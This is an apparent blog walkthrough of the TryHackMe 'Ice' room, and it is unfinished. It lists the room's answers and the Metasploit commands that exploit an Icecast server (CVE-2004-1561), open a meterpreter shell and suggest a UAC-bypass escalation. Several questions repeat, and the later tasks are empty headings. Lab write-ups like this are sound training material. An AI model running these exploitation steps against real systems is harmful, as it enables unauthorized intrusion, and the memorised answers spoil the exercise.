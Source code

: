 ```yaml
---
title: "TryHackMe Ice - Walkthrough"
toc: true
toc_label: "Table of Contents"
toc_icon: "list-alt"
categories:
  - Blog
tags:
  - Cybersecurity
  - Windows
  - Penetration Testing
  - Ethical Hacking
  - TryHackMe
  - CTF
  - Privilege Escalation
  - Machines
#teaser: assets/images/thm/thm-ice-00.png  Path to the teaser image
tagline: "ICE - Tryhackme Walkthrough by Nisha."
header:
  overlay_filter: rgba(0, 0, 0, 0.5)
  overlay_image: /assets/images/thm/thm-ice-0.png
  caption: "Photo credit: [**imgur**](https://imgur.com/6Ijftag)"
---
```



<h5>Deploy & hack into a Windows machine, exploiting a very poorly secured media server. </h5>

<img src="/assets/images/thm/ice-1.png">

Room:<a href="https://tryhackme.com/r/room/ice"> https://tryhackme.com/r/room/ice</a>


{% include toc %}

## Task 1 - Connect 

Get connected to the TryHackMe network using OpenVPN. Make sure to first download your configuration file from <a href="http://tryhackme.com/access ">your access page. </a>



## Task 2 - Recon

Click on Start Machine to deploy the machine!

<img src="/assets/images/thm/thm-ice-2.png">

Time to Scan and Enumerate our target!


An NMAP scan reveals the following ports were discovered to be open:

<img src="/assets/images/thm/thm-ice-3.png">

<strong> Q: One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on? </strong><br>
<em> Answer: 3389</em>




<strong> Q: What service did nmap identify as running on port 8000? (First word of this service) </strong><br>
<em> Answer: Icecast </em>

<img src="/assets/images/thm/thm-ice-4.png">


<strong> Q: What does Nmap identify as the hostname of the machine? (All caps for the answer) </strong><br>
<em> Answer: DARK-PC </em>

<img src="#">


## Task 3 - Gain Access

In this task we must find a way to exploit any vulnerable services on the target to gain a foothold. The cvedetails website reveals that the impact score and the CVE number for this vulnerability as displayed in the image below. 


<strong> Q: What is the Impact Score for this vulnerability? Use <a href="https://www.cvedetails.com">https://www.cvedetails.com> </a> for this question and the next.  </strong><br>
<em> Answer: 6.4 </em>

<img src="/assets/images/thm/thm-ice-6.png">


<strong> Q: What is the CVE number for this vulnerability?  </strong><br>
<em> Answer: CVE-2004-1561 </em>

It is time to use the information that we have collected to locate an exploit for our target.  We will use automation for this exploitation exercise with Metasploit being our tool of choice. 

Type "msfconsole" to launch the Metasploit Framework. <br>

<img src="/assets/images/thm/thm-ice-7.png">

<strong> Q: After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? If you are not familiar with metasploit, take a look at the Metasploit module. </strong><br>
<em> Answer: exploit/windows/http/icecast_header</em>

<img src="/assets/images/thm/thm-ice-8.png">

<strong> # use exploit/windows/http/icecast_header </strong> <br>

<img src="/assets/images/thm/thm-ice-9.png">

<strong> # set RHOSTS <em>targetIPaddress </em> </strong> <br>
<img src="/assets/images/thm/thm-ice-10.png">

<strong> # set LHOST <em> attackerIPaddress or interface </em> </strong> <br>

<img src="/assets/images/thm/thm-ice-11.png">


<strong> # set LHOST <em> attackerIPaddress or interface </em> </strong> <br>

<strong> # exploit </strong> <br>

<img src="/assets/images/thm/thm-ice-12.png">



## Task 4 - Escalate

<h5> Our goal for this task is to complete any local enumeration to discover paths to escalte our privileges in our quest to gain Admin powers. </h5>


<strong> Q: Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now? </strong><br>
<em> Answer: meterpreter </em>


<strong> > getuid </strong> <br>

<strong> Q: What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'Metasploit' module. </strong><br>
<em> Answer: Dark </em>




<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>

<img src="/assets/images/thm/thm-ice-13.png">


<strong> Q:Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running? </strong><br>
<em> Answer: x64 </em>


Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete* <br>

>  run post/multi/recon/local_exploit_suggester

<strong> Q: Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit? </strong><br>
<em> Answer: exploit/windows/local/bypassuac_eventvwr </em>

<img src="/assets/images/thm/thm-ice-14.png">


<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>

<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>



<img src="/assets/images/thm/thm-ice-15.png">
<img src="/assets/images/thm/thm-ice-16.png">

<img src="/assets/images/thm/thm-ice-17.png">
<img src="/assets/images/thm/thm-ice-18.png">



## Task 5 - Looting

## Task 6 - Post-Exploitation

## Task 7 - Extra Credit

